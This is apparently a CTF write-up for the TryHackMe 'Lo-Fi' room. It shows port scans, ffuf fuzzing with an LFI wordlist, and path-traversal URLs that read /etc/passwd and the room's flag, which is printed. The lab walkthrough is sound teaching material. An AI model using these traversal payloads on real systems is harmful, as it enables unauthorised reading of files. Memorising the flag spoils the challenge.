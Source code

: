 ```yaml
---
title: "TryHackMe Lo-Fi Writeup"
date: 2025-02-02
categories: [TryHackMe]
tags: [LFI, CTF, Cybersecurity, TryHackMe, Writeup, Walkthrough]
description: My write up for Lo-Fi Room on TryHackMe.
image:
  path: /assets/img/posts/2025-02-02-THM-Lo-Fi/cover.png
---
```


# Lo-Fi - CTF

## Target Information

- **IP Address**: `10.10.7.147`

![alt text](/assets/img/posts/2025-02-02-THM-Lo-Fi/0.png)

## Hints

- **LFI (Local File Inclusion) Path Traversal**
- **File Inclusion Vulnerability**

## Enumeration

### RustScan

**Command:**

```bash
rustscan -a 10.10.7.147
```

**Results:**

```
Open 10.10.7.147:22
Open 10.10.7.147:80
```

### Nmap

**Command:**

```bash
nmap -sV -A -p 22,80 10.10.7.147
```

**Results:**

```
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
```

### Website Analysis

After accessing the website, I noticed that navigating through different pages only changed the `page` parameter in the URL:

```
http://10.10.7.147/?page=
```

![alt text](/assets/img/posts/2025-02-02-THM-Lo-Fi/1.png)

This indicates a potential **Local File Inclusion (LFI)** vulnerability.

Upon testing **http://10.10.7.147/?page=/etc/passwd**

![alt text](/assets/img/posts/2025-02-02-THM-Lo-Fi/3.png)

An alert message appeared:

```
HACKKERRR!! HACKER DETECTED. STOP HACKING YOU STINKIN HACKER!
```

This suggests that the server has implemented some level of security measures to detect and prevent direct access to system files.

---

## Exploitation

### FFUF (Fuzzing)

To identify possible LFI vulnerabilities, I used **ffuf**:

**Command:**

```bash
ffuf -w /usr/share/wordlists/seclists/Fuzzing/LFI/LFI-Jhaddix.txt -u "http://10.10.7.147/?page=FUZZ" -fl 124
```
    Explanation:

    -w /usr/share/wordlists/SecLists/Fuzzing/LFI/LFI-Jhaddix.txt
    Uses the LFI-Jhaddix.txt wordlist, which contains common Local File Inclusion (LFI) payloads.

    -u "http://10.10.7.147/?page=FUZZ"
    The target URL where FUZZ is dynamically replaced with entries from the wordlist.

    -fl 124
    Filters out responses with exactly 124 bytes, helping to ignore default or irrelevant results.

![alt text](/assets/img/posts/2025-02-02-THM-Lo-Fi/2.png)

**Results:**
Several potential LFI paths were identified. The next step was to test them manually.

#### Testing LFI

1. Attempted **directory traversal** to bypass the detection mechanism:

   ```
   http://10.10.7.147/?page=../../../etc/passwd
   ```

    ![alt text](/assets/img/posts/2025-02-02-THM-Lo-Fi/4.png)

   This worked successfully, confirming the vulnerability and bypassing the detection system.

2. Attempted retrieving the flag using LFI:

   ```
   http://10.10.7.147/?page=../../../flag.txt
   ```

   Successfully retrieved the flag!

    ![alt text](/assets/img/posts/2025-02-02-THM-Lo-Fi/5.png)

   **Flag:** `flag{e4478e0eab69bd642b8238765dcb7d18}`

---